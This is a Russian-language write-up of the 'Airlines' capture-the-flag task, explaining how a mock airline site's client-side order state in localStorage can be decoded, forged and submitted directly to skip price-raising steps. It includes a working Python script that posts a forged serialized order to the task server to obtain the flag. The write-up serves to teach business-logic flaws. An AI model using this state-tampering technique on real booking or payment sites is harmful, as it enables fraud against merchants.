

# Airlines: Write-up

К сожалению, в задаче уязвимостей оказалось больше, чем я ожидал, вследствие чего у задачи появился путь решения до того простой, что даже как-то обидно. С него и начнём.

## Путь, которого не должно было быть

Одна маленькая беда — и задача за 150 баллов превращается в задачу за 25 баллов. Следите за руками:

1. Заходим на сайт.
2. Заказываем билет из Ханты-Мансийска в Ханты-Мансийск за 0 ₽.
3. ...
4. Платить не надо, флаг наш.

## Путь, задуманный автором

На самом деле, конечно, покупать билет за 0 ₽ — какая-то глупость, так не бывает.

Вся задачка придумалась как шутка на злобу дня: ни для кого не секрет, что некоторые настоящие авиакомпании любят повышать стоимость билетов, когда этими билетами кто-то интересуется, играя в невидимую руку рынка и создавая мнимый ажиотаж. Само по себе это явление абсолютно нормально и естественно. Другое дело, чтот порой повышенный интерес к билетам появляется от того, что какой-то неудачливый пассажир пытается купить себе билет, но сайт ломается, и пассажиру приходится начинать по новой, и ещё по новой, и ещё раз, да ещё раз... Таким неудачливым пассажиром, в частности, не один раз оказывался автор задания.

Как должно было быть на самом деле:

1. Заходим на сайт.
2. Заказываем билет откуда угодно в Ханты-Мансийск.
3. Выбираем любой рейс дешевле пяти тысяч рублей — именно такую сумму мы можем скинуть данным нам промокодом.
4. Проходим форму из шести шагов. Замечаем, что с каждым шагом билет дорожает. 
5. К шагу с оплатой любой билет стоит больше, чем пять тысяч.

Открываем веб-инспектор и, внимательно пронализировав вкладки Network, Application и Sources, понимаем, что форма, на самом деле, заполняется строго на клиенте до самого последнего шага, хранится у клиента в LocalStorage в закодированном виде, и передаётся на сервер в таком же виде лишь на седьмом шаге — то есть, после оплаты.

Посмотреть, что именно хранится в LocalStorage, можно, сказав в браузерной консоли `localStorage.state`. Это строка, закодированная в base64, закодированная по URL-схеме, и в ней действительно лежит сериализованная форма. Прочитаем её уже написанной и данной нам функцией:



Получается, что можно пропустить почти все шаги, сэкономив число запросов к серверу и наши деньги. 

Можно добиться результатом исключительно с помощью браузера:

1. Честно заполнить форму, дойдя до экрана «Недостаточно средств».
2. Открыть новую вкладку в инкогнито-режиме или сбросить куки.
3. Перенести туда `state` из `localStorage`.
4. Перейти по адресу `/place-an-order?step=7`. 
5. Убедиться, что цена не выросла, а, значит, нам хватает на билет.
6. Купить билет и забрать флаг.

А можно программно:

```python3
import requests
from urllib.parse import quote
from base64 import b64encode
import re

state = {
    "class": "basic",
    "date": "2021-03-27",
    "date_of_birth": "1979-10-01",
    "email": "a@a",
    "first": "Антон",
    "from": "Сургут",
    "hamburger": "on",
    "last": "Решала",
    "number": "279",
    "passport": "1234567890",
    "patronymic": "Борисович",
    "phone": "7987654321",
    "to": "Ханты-Мансийск",
    "valid_thru": "2022-03-27",
    "promocode": "TOKEN",
}


def serialize(state):
    res = ';'.join(f"{k}:{v}" for k, v in state.items())
    res = quote(res)
    res = str(b64encode(res.encode('ascii')), 'ascii')
    return res


def solve():
    url = 'https://airlines.s.2021.ugractf.ru'
    url = 'http://localhost:31337'
    s = requests.session()
    s.post(url + '/place-an-order', data={
        'from': 'Сургут · SGC',
        'to': 'Ханты-Мансийск · HMA',
        'date': '2021-03-27'
    })
    ticket = s.post(url + '/eticket', data={
        'sealedOrderData': serialize(state)
    }).text
    print(re.findall(r"ugra_[a-z0-9_]+", ticket)[0])


solve()
```
